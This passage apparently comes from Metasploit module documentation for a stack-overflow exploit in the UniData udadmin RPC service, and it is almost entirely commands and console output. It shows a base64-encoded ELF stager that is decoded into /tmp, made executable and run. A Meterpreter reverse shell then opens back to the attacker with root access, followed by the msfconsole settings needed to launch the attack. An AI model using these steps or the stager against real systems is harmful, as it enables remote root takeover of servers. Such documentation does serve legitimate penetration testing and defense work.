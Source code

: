 ```
[*] 10.0.0.198:31438 - Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAGgEAAAAAAAC8AQAAAAAAAAAQAAAAAAAAajlYDwVIhcB0CEgx/2o8WA8FBHAPBWo5WA8FSIXAdeox/2oJWJm2EEiJ1k0xyWoiQVpqB1oPBUiFwHhRagpBWVBqKViZagJfagFeDwVIhcB4O0iXSLkCABFcCgAAs1FIieZqEFpqKlgPBVlIhcB5JUn/yXQYV2ojWGoAagVIiedIMfYPBVlZX0iFwHnHajxYagFfDwVean5aDwVIhcB47f/m>>'/tmp/XMbNg.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/MXvDZ' < '/tmp/XMbNg.b64' ; chmod +x '/tmp/MXvDZ' ; '/tmp/MXvDZ' ; rm -f '/tmp/MXvDZ' ; rm -f '/tmp/XMbNg.b64'"]
[*] 10.0.0.198:31438 - Connecting to UniRPC endpoint udadmin
[*] 10.0.0.198:31438 - Authenticating to RPC service as XcizXGOEteljZLhIBvu with a stack-overflowing password
[*] 10.0.0.198:31438 - Payload sent
[*] 10.0.0.198:31438 - Command Stager progress - 100.00% done (863/863 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045348 bytes) to 10.0.0.198
[*] Meterpreter session 1 opened (10.0.0.179:4444 -> 10.0.0.198:40546) at 2023-01-30 14:14:52 -0800

meterpreter > getuid
Server username: root
```

# Version 8.2.4 with specific targeting

```
msf6 > use exploit/linux/misc/unidata_udadmin_password_stack_overflow
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set LHOST 10.0.0.179
LHOST => 10.0.0.179

msf6 exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set RHOST 10.0.0.198
RHOST => 10.0.0.198

msf6 exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set VERBOSE true
VERBOSE => true

msf6 exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set TARGET 1
TARGET => 1

msf6 exploit(linux/misc/unidata_udadmin_password_stack_overflow) > show options

Module options (exploit/linux/misc/unidata_udadmin_password_stack_overflow):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   EXIT_CLEANLY  true             yes       If set, tries to kill the parent process with SIGTERM before it crashes
   RHOSTS        10.0.0.198       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT         31438            yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSL           false            no        Negotiate SSL for incoming connections
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)

Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
```
